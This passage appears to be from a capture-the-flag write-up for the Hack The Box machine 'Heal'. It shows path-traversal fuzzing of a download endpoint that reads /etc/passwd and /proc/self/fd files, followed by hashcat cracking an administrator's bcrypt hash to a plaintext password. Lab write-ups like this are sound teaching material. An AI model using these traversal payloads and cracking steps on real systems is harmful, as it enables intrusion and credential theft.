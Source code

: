 ```terminal
 :: Method           : GET
 :: URL              : http://api.heal.htb/download?filename=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
 :: Header           : Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxMH0.1HGjddQjtuWidz164C3dJQJ2hs4S2YayWCU5TFsrzaE
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0,64
________________________________________________

/etc/passwd             [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 104ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 214ms]
[...]
../../../../../../../../../../../../../../etc/group [Status: 200, Size: 864, Words: 1, Lines: 66, Duration: 2112ms]
../../../../../proc/self/fd/15 [Status: 200, Size: 32768, Words: 106, Lines: 20, Duration: 2099ms]
../../../../../../../../../../../../../proc/self/fd/17 [Status: 200, Size: 32768, Words: 1, Lines: 1, Duration: 2117ms]
```

We got `/proc/self/fd/15` and `17`, let's request them on burp.

![pass](8.png)

We found password hashes on `/proc/self/fd/15` including user `ralph` who's the administrator on lime survey.

Let's crack his password.

```terminal
λ .\hashcat.exe hashes.txt rockyou.txt -m 3200                                         
hashcat (v6.2.6) starting                                                              
                                                                                       
[...]                                                           
                                                                                       
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369                 
                                                                                       
Session..........: hashcat                                                             
Status...........: Cracked                                                             
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))                                 
Hash.Target......: $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9S...GCSZnG        
Time.Started.....: Sat May 17 18:34:56 2025 (56 secs)                                  
Time.Estimated...: Sat May 17 18:35:52 2025 (0 secs)                                   
Kernel.Feature...: Pure Kernel                                                         
Guess.Base.......: File (rockyou.txt)                                                  
Guess.Queue......: 1/1 (100.00%)                                                       
Speed.#1.........:       28 H/s (12.74ms) @ Accel:1 Loops:1 Thr:16 Vec:1               
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)          
Progress.........: 1536/14344384 (0.01%)                                               
Rejected.........: 0/1536 (0.00%)                                                      
Restore.Point....: 0/14344384 (0.00%)                                                  
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4095-4096                            
Candidate.Engine.: Device Generator                                                    
Candidates.#1....: 123456 -> mexico1                                                   
                                                                                       
Started: Sat May 17 18:34:38 2025                                                      
Stopped: Sat May 17 18:35:53 2025                                                      
```
